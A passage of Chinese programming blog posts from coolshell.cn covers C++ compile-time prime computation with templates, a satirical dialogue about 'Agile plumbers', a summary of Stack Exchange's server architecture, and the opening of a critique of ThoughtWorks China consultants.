XQ..&amp;dt=1684225954810&amp;bpp=1&amp;bdt=4350&amp;idt=0&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C704x280%2C704x280%2C120x600%2C728x90&amp;nras=8&amp;correlator=5833827868184&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=1933435665&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=3448&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=451&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31071756%2C31074546%2C31074635%2C44785293%2C44788442%2C44792088&amp;oid=2&amp;psts=ABHeCvgafWyiz31o1xXPAh9e7PE0-8CP_Uxi4BcEL1NV68Ps1mrjKDBdgFlSWPNwQO1h7yMsm0ZhU9fWwDuHxafla7bN%2CABHeCvhY2wDclp2jyyKDI-w-0DKO8wXz-ikeZkb6a3gaKbY3A3QHzfnApkr1UWqeCgSMQpmjaf9oH_5Y-RR3P_XK0ORl6zrg4HpMk1THc20IdzqBMDk&amp;pvsid=2486013753701903&amp;tmod=182273927&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F30&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=7&amp;uci=a!7&amp;btvi=5&amp;fsb=1&amp;xpc=tmAPe3LO6g&amp;p=https%3A//coolshell.cn&amp;dtd=7457" data-google-container-id="a!7" data-google-query-id="CMbnwNG2-f4CFbv85wMdmsgJvQ" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

所以，我想在这里提醒大家——**实际和理论的的方法很不一样的**，千万不要读书读成书呆子。在游戏编程的世界里，大量的数据都不是运行计算的，而都是写在文件中的。比如，一个火焰效果，一个人物跑动的动作，都是事先写在文件中的。

#### 使用编译时而不是运行时

下面这个例子（本例参考于[这里](http://www.intermediaware.com/blog/846/hack-of-the-day-fast-prime-numbers)）你需要注意了，这是一个高级用法，使用模式来在编译时计算质数，而不是运行时。这种技术使用了C++编译器对模板的特化时的处理来生成自己相要的结果。这种方法在技术上是相当Cool的，但并不一定实用，这里只是想像大家展示这种用法。这是C++的最骨灰级的用法了。

<iframe id="aswift_8" name="aswift_8" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=1355985769&amp;adf=2760661505&amp;pi=t.aa~a.425447425~i.46~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684225949&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3738.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xnMUes7P5fNuj2UwsS35QKrZcboKu3Eq19pSd9LtnYutSgOcY2g5v-wN0mLVsiN2OtpSLN4&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684225954824&amp;bpp=1&amp;bdt=4364&amp;idt=1&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C704x280%2C704x280%2C120x600%2C728x90%2C704x280&amp;nras=9&amp;correlator=5833827868184&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=1933435665&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=4093&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=1081&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31071756%2C31074546%2C31074635%2C44785293%2C44788442%2C44792088&amp;oid=2&amp;psts=ABHeCvgafWyiz31o1xXPAh9e7PE0-8CP_Uxi4BcEL1NV68Ps1mrjKDBdgFlSWPNwQO1h7yMsm0ZhU9fWwDuHxafla7bN%2CABHeCvhY2wDclp2jyyKDI-w-0DKO8wXz-ikeZkb6a3gaKbY3A3QHzfnApkr1UWqeCgSMQpmjaf9oH_5Y-RR3P_XK0ORl6zrg4HpMk1THc20IdzqBMDk&amp;pvsid=2486013753701903&amp;tmod=182273927&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F30&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=9&amp;uci=a!9&amp;btvi=6&amp;fsb=1&amp;xpc=GzHhFkjNn8&amp;p=https%3A//coolshell.cn&amp;dtd=7525" data-google-container-id="a!9" data-google-query-id="CLf5xdG2-f4CFbL65wMdCJMBZw" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

请看下面的两个模板类，第一个模板以递归的方式检查是否是质数，第二个方法是递归的退出条件（当N=1时），对于模板的重载，请参看相关的C++书籍。

**template**<**int** N, **int** D = N - 1>

**struct** isPrime {

​    **enum** {

​        result = (N % D) && isPrime<N, D-1>::result

​    };

};

**template**<**int** N>

**struct** isPrime<N, 1> {

​    **enum** {

​        result = **true**

​    };

};

<iframe id="aswift_5" name="aswift_5" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=1355985769&amp;adf=2760661505&amp;pi=t.aa~a.425447425~i.50~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684225949&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3738.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xnMUes7P5fNuj2UwsS35QKrZcboKu3Eq19pSd9LtnYutSgOcY2g5v-wN0mLVsiN2OtpSLN4&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684225954803&amp;bpp=1&amp;bdt=4343&amp;idt=0&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C704x280%2C704x280%2C120x600%2C728x90%2C704x280%2C704x280&amp;nras=10&amp;correlator=5833827868184&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=1933435665&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=4737&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=1774&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31071756%2C31074546%2C31074635%2C44785293%2C44788442%2C44792088&amp;oid=2&amp;psts=ABHeCvgafWyiz31o1xXPAh9e7PE0-8CP_Uxi4BcEL1NV68Ps1mrjKDBdgFlSWPNwQO1h7yMsm0ZhU9fWwDuHxafla7bN%2CABHeCvhY2wDclp2jyyKDI-w-0DKO8wXz-ikeZkb6a3gaKbY3A3QHzfnApkr1UWqeCgSMQpmjaf9oH_5Y-RR3P_XK0ORl6zrg4HpMk1THc20IdzqBMDk&amp;pvsid=2486013753701903&amp;tmod=182273927&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F30&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=6&amp;uci=a!6&amp;btvi=7&amp;fsb=1&amp;xpc=2eKO4lzcvd&amp;p=https%3A//coolshell.cn&amp;dtd=7864" data-google-container-id="a!6" data-google-query-id="CPuv2NG2-f4CFXcNdgYd0_IGxg" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

于是，通过这个模板，我们可以使用下面的代码来检查是否是质数：

**if** (isPrime<3>::result)

​    cout << "Guess what: 3 is a prime!";

下一步，我们需要打出一个区间内的质数，所以，我们需要继续设计我们的print模板。

**template**<**int** N, **bool** ISPRIME>

**struct** printIfPrime {

​    **static** **inline** **void** print() {}

};

**template** <**int** N>

**struct** printIfPrime<N, **true**> {

​    **static** **inline** **void** print() {

​        std::cout << N << endl;

​    }

};

<iframe id="aswift_7" name="aswift_7" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=1355985769&amp;adf=1060974469&amp;pi=t.aa~a.425447425~i.61~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684225949&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3738.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xnMUes7P5fNuj2UwsS35QKrZcboKu3Eq19pSd9LtnYutSgOcY2g5v-wN0mLVsiN2OtpSLN4&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684225954817&amp;bpp=1&amp;bdt=4357&amp;idt=1&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C704x280%2C704x280%2C120x600%2C728x90%2C704x280%2C704x280%2C704x280&amp;nras=11&amp;correlator=5833827868184&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=1933435665&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=5420&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=2383&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31071756%2C31074546%2C31074635%2C44785293%2C44788442%2C44792088&amp;oid=2&amp;psts=ABHeCvgafWyiz31o1xXPAh9e7PE0-8CP_Uxi4BcEL1NV68Ps1mrjKDBdgFlSWPNwQO1h7yMsm0ZhU9fWwDuHxafla7bN%2CABHeCvhY2wDclp2jyyKDI-w-0DKO8wXz-ikeZkb6a3gaKbY3A3QHzfnApkr1UWqeCgSMQpmjaf9oH_5Y-RR3P_XK0ORl6zrg4HpMk1THc20IdzqBMDk&amp;pvsid=2486013753701903&amp;tmod=182273927&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F30&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=8&amp;uci=a!8&amp;btvi=8&amp;fsb=1&amp;xpc=XHXSHXw0py&amp;p=https%3A//coolshell.cn&amp;dtd=7933" data-google-container-id="a!8" data-google-query-id="CMrW3dG2-f4CFX4QdgYdVDcF9w" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

从上面的代码中，我们可以看到，我们的第一个实际是什么也没做，而第二个有输出，注意第二个的模板参数中有一个true，其意味着那个质数的判断。于是我们就可以给出下面的代码来尝试着打印出一段区间内的质数：（**请不要编译！！**因为那会让编译器进入无限循环中，原因是printPrimes会不停地调用自己永不停止）

**template**<**int** N, **int** MAX>

**struct** printPrimes {

​    **static** **inline** **void** print()

​    {

​        printIfPrime<N, isPrime<N>::result>::print();

​        printPrimes<N + 1, MAX>::print();

​    }

};

<iframe id="aswift_4" name="aswift_4" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=1355985769&amp;adf=2630282412&amp;pi=t.aa~a.425447425~i.65~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684225949&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3738.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xnMUes7P5fNuj2UwsS35QKrZcboKu3Eq19pSd9LtnYutSgOcY2g5v-wN0mLVsiN2OtpSLN4&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684225954795&amp;bpp=1&amp;bdt=4335&amp;idt=1&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C704x280%2C704x280%2C120x600%2C728x90%2C704x280%2C704x280%2C704x280%2C704x280&amp;nras=12&amp;correlator=5833827868184&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=1933435665&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=6031&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=3106&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31071756%2C31074546%2C31074635%2C44785293%2C44788442%2C44792088&amp;oid=2&amp;psts=ABHeCvgafWyiz31o1xXPAh9e7PE0-8CP_Uxi4BcEL1NV68Ps1mrjKDBdgFlSWPNwQO1h7yMsm0ZhU9fWwDuHxafla7bN%2CABHeCvhY2wDclp2jyyKDI-w-0DKO8wXz-ikeZkb6a3gaKbY3A3QHzfnApkr1UWqeCgSMQpmjaf9oH_5Y-RR3P_XK0ORl6zrg4HpMk1THc20IdzqBMDk&amp;pvsid=2486013753701903&amp;tmod=182273927&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F30&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=5&amp;uci=a!5&amp;btvi=9&amp;fsb=1&amp;xpc=pA75OGyBnn&amp;p=https%3A//coolshell.cn&amp;dtd=8255" data-google-container-id="a!5" data-google-query-id="CL3d79G2-f4CFbkQdgYdbbAEKQ" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

为了避免这个问题，你需要再加一个模板类，如下所示。这样当N变成MAX的时候，递归就结束了。

**template**<**int** N>

**struct** printPrimes<N, N> {

​    **static** **inline** **void** print() {

​        printIfPrime<N, isPrime<N>::result>::print();

​    }

};

最后，让我们来看看最终的调用：

**int** main (**int** argc, **char** * const argv[])

{

​    printPrimes<2, 40>::print();

​    **return** 0;

}

这个方法很NB，但是有两个问题：

- 比较耗编译时间。
- 不能在运行时输入MAX的值。

不过，相信这种玩法会启动你很多的编程思路。

当然，还有以前说过的那个——《**[检查素数的正则表达式](https://coolshell.cn/articles/2704.html)**》

（全文完）

# 敏捷水管工

#####  [2011年02月25日 ](https://coolshell.cn/articles/3778.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [31 条评论](https://coolshell.cn/articles/3778.html#comments) 16,720 人阅读

本文来自Terazen Technology Inc的创始人+CTO的 [David Ing](http://ca.linkedin.com/in/davidjing)的《[Agile Plumbers](http://david.ing.name/2010/12/24/agile-plumbers/)》（这也墙？），我的其文中的这个帮事翻译过来（和前些天发的[SOAP的S是Simple](https://coolshell.cn/articles/3585.html)异曲同工）。

也许你会觉得这个比喻不恰当。但我想告诉你的是，这个故事告诉我们，教条主义和以方法论为中心的危险。[十条不错的编程观点](https://coolshell.cn/articles/2424.html)中第一条—— **The only “best practice” you should be using all the time is “Use Your Brain”.**

————————————————————

(门铃响……)

**事主：**啊, Agile 水管工吗？ 请进，感谢谢你们这么快就来了——这的确很紧急，我这真是很乱。

**水管工1**: 先生，没问题，我们就是敏捷的。在我给你做Presentation前，我先给你介绍一下我的两个同事。

**事主**：Presentation？啊，我们有时间吗？这的水已经流得到处都是了……

**水管工1**：……先生，我们必需坚持这个。我们只是想保证你能成为动态搜寻解决方法的一份子。你是我们的 champion sponsor，也就是我们团队内的 consultant！你可以提供一个白板给我们使用吗？

**事主**：我没听懂，你们不觉得这变复杂了吗？我觉得我应该告诉你们这水是从房子哪儿流出来的，就是那……

**水管工2**：你这有让我脱衣服的地儿吗？

**事主**：什么？


**水管工2**：我要坐在你的浴盆里——我还需要肥皂和托鞋。因为我们运作的方法是“测试驱动”， Red, Green, Red。你可以看到我们是怎么驱动的……

**事主**：为什么你会需要这样做？水都从楼梯上流下来了，水管爆裂了，马桶堵了，你能现在就开始吗？

**水管工3**：非常不错的feedback——感谢你！你介意先填一下这些 3×5 的卡片吗？我希望你能使用名词，让我们迭代一下刚才你说的“水灾……

**水管工1**：别那么着急，Domain Model 可以等的，让我们现在先生成一些想法——我们应该先把所有的业务需求都写出来，然后调查其动机。先生，是不是所有的功能都是 “关键业务’”？你能先给马桶评个等级吗？另外，如果你有100美金……

**事主**：你在开玩笑吗？你看，如果你们不能干这个，那么我就……

**水管工2**：我去拿个扳手。

**事主**：好！终于！等等，你就拿来一个扳手？可是你们有三个人哦。

**水管工**1：不这样的，先生！我还是在这里做个初始的Presentation，我一会就走了。但是，我还是会对项目的进度非常感兴趣的。我会打电话过来参加明天的 stand-up meeting。

**水管工2** ：另外，和你阐清一下，我们两个留下来的会分享同一把扳手，因为我们是结对水管工……

**水管工3**：……你能看到这会更有生产率，我们轮流使用这把扳手。并能保证很高的质量以及持续的工作激情！

**事主**：我没搞懂——你们以前应该就干过这个事了吗，不是吗？500美金的出场费还不能让你们有工作激情？

**水管工1**：你得想得长远一些，先生。你看，我们可以一起来经历整个过程。这是多么令人兴奋的事！我对此超级兴奋！

**水管工**2：哦，不。看看这个，这些是铜制的水管吗？有多少人在这住？

**事主**：什么？这个房子有5年了。就我和我太太在这里，但是你问这个是什么意思？

**水管工3**：嗯~~。我有些害怕，情况并没有那么简单！这些都是Legacy的水管，我们需要对它们做重构，而且，这些老的水管也无法适合我们新型的板手。重构看起来并不难……

**水管工2**：喔，我们可以使用新的在机场使用的防水层系统。另外，还有更多的工作需要花在一个大的O型环性能配置上， 但是这会让住在这里的数千人都到影响。我想，我们得做个迭代……

**事主**：什么？？！！

**水管工1**：先生，也许我们可以从你这做一些case study。我们可以为这里创新。让我们先安排一个游戏，这样我们可以进行一个头脑风暴。而最简单有可能做的事——先生，你有水桶吗？

**事主**：够了！你们给我滚出去！真是荒唐——很明显，你们根本不知道你们在做什么。给我滚出去！

**水管工**1：先生，我开始怀疑你根本没有一个Fackbook社交平台策略（Facebook Social Platform Strategy）用来做解决方案？

————————————————

（全文完）

# STACK EXCHANGE 的架构

#####  [2011年02月23日 ](https://coolshell.cn/articles/3721.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [21 条评论](https://coolshell.cn/articles/3721.html#comments) 17,802 人阅读

近日，Stack Exchange系统管理员blog上发布了一篇关于[Stack Exchange的架构一瞥](http://blog.serverfault.com/post/stack-exchanges-architecture-in-bullet-points/)，其包括了Stack Overflow, Server Fault 和 Super User的 Stack Exchange 网络。注意最后一个关于人员的配置。希望能给大家一些相关的参考。

目录


[网络流量](https://coolshell.cn/articles/3721.html#网络流量)[数据中心](https://coolshell.cn/articles/3721.html#数据中心)[生产服务器](https://coolshell.cn/articles/3721.html#生产服务器)[使用了的相关的软件和技术](https://coolshell.cn/articles/3721.html#使用了的相关的软件和技术)[程序员和系统管理员](https://coolshell.cn/articles/3721.html#程序员和系统管理员)

#### 网络流量

- 每月9千5百万个PV
- 每秒800 HTTP 请求
- 每秒180 DNS 请求
- 每秒55Mb 的带宽

#### 数据中心

- 1 机柜 位于俄勒冈的 [Peak Internet](http://www.peakinternet.com/) (用于[chat](http://chat.stackexchange.com/) 和[Data Explorer](http://data.stackexchange.com/))
- 2 机框 位于 纽约的 [Peer 1](http://www.peer1.com/) ( 用于其它的 Stack Exchange Network)


#### 生产服务器

- 12 Web Servers (Windows Server 2008 R2)
- 2 Database Servers (Windows Server 2008 R2 and SQL Server 2008 R2)
- 2 Load Balancers (Ubuntu Server and HAProxy)
- 2 Caching Servers (Redis on CentOS)
- 1 Router / Firewall (Ubuntu Server)
- 3 DNS Servers (Bind on CentOS)

(生产服务器不含故障备份和管理服务器)

#### 使用了的相关的软件和技术

- [C# / .NET](http://www.microsoft.com/net/)
- [Windows Server 2008 R2](http://www.microsoft.com/windowsserver2008/en/us/default.aspx)
- [SQL Server 2008 R2](http://www.microsoft.com/sqlserver/en/us/default.aspx)
- [Ubuntu Server](http://www.ubuntu.com/server)
- [CentOS](http://www.centos.org/)
- [HAProxy](http://haproxy.1wt.eu/) 用于负载均衡
- [Redis](http://redis.io/) 用于缓存
- [CruiseControl.NET](http://sourceforge.net/projects/ccnet/) 用于做builds
- [Lucene.NET](http://lucene.apache.org/lucene.net/) 用于搜索
- [Bacula](http://www.bacula.org/en/) 用于做备份
- [Nagios](http://www.nagios.org/) (with n2rrd and drraw plugins) 用于系统监控
- [Splunk](http://www.splunk.com/) 用于日志
- [SQL Monitor from Red Gate](http://www.red-gate.com/products/dba/sql-monitor/) 用于监控SQL Server
- [Mercurial](http://mercurial.selenic.com/) / [Kiln](http://www.fogcreek.com/kiln/) 用于源码管理
- [Bind](http://www.isc.org/software/bind) 用于 DNS

#### 程序员和系统管理员

- 14 程序员
- 2 系统管理员

（全文完）

# 再谈敏捷和THOUGHTWORKS中国咨询师

#####  [2011年02月24日 ](https://coolshell.cn/articles/3745.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [150 条评论](https://coolshell.cn/articles/3745.html#comments) 79,157 人阅读


目录


[前言说明](https://coolshell.cn/articles/3745.html#前言说明)[基本观点](https://coolshell.cn/articles/3745.html#基本观点)[对于敏捷方法论的观点](https://coolshell.cn/articles/3745.html#对于敏捷方法论的观点)[对于ThoughtWorks咨询师的批评观点](https://coolshell.cn/articles/3745.html#对于ThoughtWorks咨询师的批评观点)[关于ThoughtWorks和InfoQ给我的信](https://coolshell.cn/articles/3745.html#关于ThoughtWorks和InfoQ给我的信)

#### 前言说明

之所以用了“再”，是因为之前的两篇文章——

- 我在《[那些炒作过度的技术和概念](https://coolshell.cn/articles/3609.html)》中批评了ThoughtWorks中国咨询师的咨询方法是以一种接近于教条、炒作、洗脑和电视购物的方法（虽然我心底觉得有时候有时候更像传销），当然，批评是没有意义的，所以我也给了中国ThoughtWorks那些年轻的咨询师们一些我认为有建设性的建议。

- 我在《[TDD并不是看上去的那么美](https://coolshell.cn/articles/3649.html)》一文中列举了一些在实际中使用TDD可能会出现的问题和难题，以此来告诉大家在使用TDD时需要注意的东西。就像是在《[结对编程的利与弊](https://coolshell.cn/articles/16.html)》说的一样，只有真正知道一件事情的利弊，你才能用好它。

当然，这两篇文章都不可避免得招来了ThoughtWorks咨询师和Agile信仰者们的很多回复，我也有开始沉不住气回复了很多，当然，有一半以上的不是学术上的讨论，而是对我个人的攻击。甚至，在这两篇文章发布后，酷壳（CoolShell.cn）受到[持续性的黑客攻击](https://coolshell.cn/articles/3686.html)。

